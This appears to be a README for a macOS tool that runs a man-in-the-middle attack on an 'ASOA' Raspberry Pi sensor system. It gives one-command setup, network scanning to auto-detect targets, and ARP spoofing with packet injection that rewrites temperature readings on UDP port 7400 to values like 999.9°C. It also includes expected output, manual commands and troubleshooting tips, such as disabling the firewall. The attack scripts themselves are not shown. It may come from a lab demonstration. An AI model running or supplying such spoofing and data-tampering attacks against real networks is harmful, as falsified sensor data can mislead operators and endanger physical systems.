 # ASOA MITM Attack - macOS Plug-and-Play

## 🎯 One-Command Attack System

This makes the MITM attack completely plug-and-play on any Mac.

## 🚀 Quick Start

### Step 1: Copy Attack Files to Mac
```bash
# Copy the attack folder to your Mac
scp -r asoa_advanced_mitm/ user@MAC_IP:/Users/user/Desktop/
```

### Step 2: Run Setup (One-time)
```bash
cd ~/Desktop/asoa_advanced_mitm
sudo ./macos_mitm_plug_and_play.sh
```

### Step 3: Attack (Daily Usage)
```bash
# Quick attack with 999.9°C
./quick_attack.sh

# Attack with custom temperature
./quick_attack.sh 500.0
./quick_attack.sh 1234.5
```

## 🎯 What the Script Does

### Automatic Setup:
✅ **Installs Homebrew** (if needed)
✅ **Installs dependencies** (scapy, tcpdump, dsniff)
✅ **Creates Python virtual environment**
✅ **Installs Python packages** (scapy, netifaces, etc.)
✅ **Scans network** for ASOA devices
✅ **Auto-detects target** Raspberry Pi
✅ **Creates attack scripts**

### Attack Features:
✅ **ARP Spoofing** - Intercepts traffic between Pi and gateway
✅ **UDP Port 7400** - Targets correct ASOA protocol
✅ **Temperature Modification** - Spoofs temperature values
✅ **Packet Injection** - Sends modified packets
✅ **Auto-recovery** - Restores ARP tables on exit

## 📡 Network Discovery

The script automatically:
1. **Scans your network** for devices with UDP port 7400 open
2. **Identifies ASOA devices** (Raspberry Pi)
3. **Sets target IP** automatically
4. **Falls back to manual input** if auto-detection fails

## 🎯 Attack Configuration

- **Protocol**: UDP (correct for ASOA)
- **Port**: 7400 (correct ASOA port)
- **Target**: Auto-detected Raspberry Pi
- **Method**: ARP spoofing + packet modification
- **Payload**: Temperature value spoofing

## 📊 Expected Output

```
🎯 Quick ASOA MITM Attack
Target: 192.168.1.101
Spoofed Temperature: 999.9°C

🎯 Target: 192.168.1.101
🌐 Gateway: 192.168.1.1
🌡️ Spoofed Temperature: 999.9°C
🔄 Starting ARP spoofing...
📡 Starting packet sniffing on UDP port 7400...
📡 Intercepted ASOA packet #1: 192.168.1.101:12345 -> 192.168.1.101:7400
🌡️ Found temperature value: 15.3°C
🌡️ Temperature modified to 999.9°C
💉 Sent modified packet to 192.168.1.101:7400
```

## 🔧 Manual Commands

If you prefer manual control:

```bash
# Activate environment
source mitm_env/bin/activate

# Run attack manually
python3 asoa_mitm_attack.py 192.168.1.101 999.9

# Monitor network
sudo tcpdump -i any -n udp port 7400
```

## 🛑 Stopping the Attack

- **Ctrl+C** - Gracefully stops attack and restores ARP tables
- **Auto-recovery** - ARP tables automatically restored on exit

## 🔍 Troubleshooting

### If No Devices Found:
```bash
# Manual target specification
./quick_attack.sh
# Enter IP when prompted
```

### If Attack Doesn't Work:
1. **Check network**: Ensure Mac and Pi are on same network
2. **Check ASOA**: Ensure Pi is running ASOA services
3. **Check firewall**: Disable Mac firewall temporarily
4. **Check permissions**: Run with sudo

### If No Packets Intercepted:
1. **Verify protocol**: ASOA uses UDP, not TCP
2. **Verify port**: ASOA uses 7400, not 4451
3. **Check traffic**: Run `sudo tcpdump -i any -n udp port 7400`

## 📋 Complete Workflow

### On Raspberry Pi:
```bash
./start_asoa_system.sh
```

### On Mac:
```bash
./quick_attack.sh
```

### Result:
- Pi Dashboard shows original temperatures (10-30°C)
- MITM attack modifies to spoofed temperature (999.9°C)
- Dashboard displays modified temperature

## 🎉 Success Indicators

✅ **Setup Complete**: All dependencies installed
✅ **Target Found**: ASOA device detected
✅ **Attack Running**: ARP spoofing active
✅ **Packets Intercepted**: UDP traffic captured
✅ **Temperature Modified**: Values changed to spoofed temp
✅ **Dashboard Updated**: Pi shows modified values

---

**🎯 Result**: MITM attack is now **one command** on any Mac! 🚀

